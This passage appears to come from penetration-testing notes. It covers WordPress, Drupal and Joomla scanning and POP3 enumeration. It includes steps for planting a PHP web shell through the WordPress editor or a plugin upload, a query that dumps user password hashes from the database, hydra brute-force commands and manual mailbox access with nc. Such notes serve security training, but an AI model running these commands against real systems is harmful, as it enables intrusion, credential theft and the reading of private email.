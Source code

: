 ```sh
cmsmap -o cmsmap.txt -d http://$VICTIM_IP
```

Also try logging into the Wordpress admin page (`/wp-admin`).

If you can log in, you can update the page template to get code execution. Appearance → Editor → 404 Template (at the right), add a PHP shell.

After admin portal login, also try plugin upload to add a web shell/known vulnerable plugin. Remember to activate plugin after install.

[WordPress Plugin Webshell](https://github.com/p0dalirius/Wordpress-webshell-plugin) - accessible via `/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id`

Maybe upload Media file that has PHP script?

Post exploit: The `wp-config.php` file contains information required by WordPress to connect to the database (credentials).

```bash
# Extract usernames and passwords:
mysql -u USERNAME --password=PASSWORD -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```


**Drupal**
```sh
droopescan scan drupal http://$VICTIM_IP -t 32 # if drupal found
```

**Joomla**
```sh
joomscan --ec -u $VICTIM_IP # if joomla found
```

## POP - 110,995

Post Office Protocol (POP) retrieves email from a remote mail server.

```sh

# basic scan
nmap -n -v -p110 -sV --script="pop3-* and safe" $VICTIM_IP

# Bruteforcing
hydra -f -l USERNAME -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $VICTIM_IP pop3
hydra -f -S -l USERNAME -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -s 995 $VICTIM_IP pop3

# user enum / log in
nc -nvC $VICTIM_IP 110  # "-C" for \r\n line endings, required
USER username
PASS password
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```
